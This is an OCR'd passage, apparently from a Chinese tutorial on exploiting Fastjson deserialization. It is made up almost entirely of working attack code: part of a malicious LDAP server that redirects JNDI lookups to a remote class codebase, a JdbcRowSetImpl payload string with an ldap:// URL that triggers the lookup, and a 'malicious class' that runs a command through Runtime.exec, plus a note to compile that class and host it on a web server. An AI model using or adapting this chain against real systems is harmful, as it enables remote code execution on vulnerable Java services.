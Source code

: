 ```java
            String base = result.getRequest().getBaseDN();  
 Entry e = new Entry(base);  
 try {  
                sendResult(result, base, e);  
 }  
            catch ( Exception e1 ) {  
                e1.printStackTrace();  
 }  
        }  
        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {  
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));  
 System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);  
 e.addAttribute("javaClassName", "Exploit");  
 String cbstring = this.codebase.toString();  
 int refPos = cbstring.indexOf('#');  
 if ( refPos > 0 ) {  
                cbstring = cbstring.substring(0, refPos);  
 }  
            e.addAttribute("javaCodeBase", cbstring);  
 e.addAttribute("objectClass", "javaNamingReference");  
 e.addAttribute("javaFactory", this.codebase.getRef());  
 result.sendSearchEntry(e);  
 result.setResult(new LDAPResult(0, ResultCode.SUCCESS));  
 }  
  
    }  
}
```

client受害者代码

```java
import com.alibaba.fastjson.JSON;  
  
public class JdbcRowSetImplLdapExp {  
    public static void main(String[] args) {  
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"ldap://localhost:1099/Exploit\", \"autoCommit\":true}";  
 JSON.parse(payload);  
 }  
}
```

恶意类

```java

import java.io.IOException;

public class test {
    public test() throws IOException {
        Runtime.getRuntime().exec("calc");

    }
}
```

同上面一样，需要编译为class文件放到web端
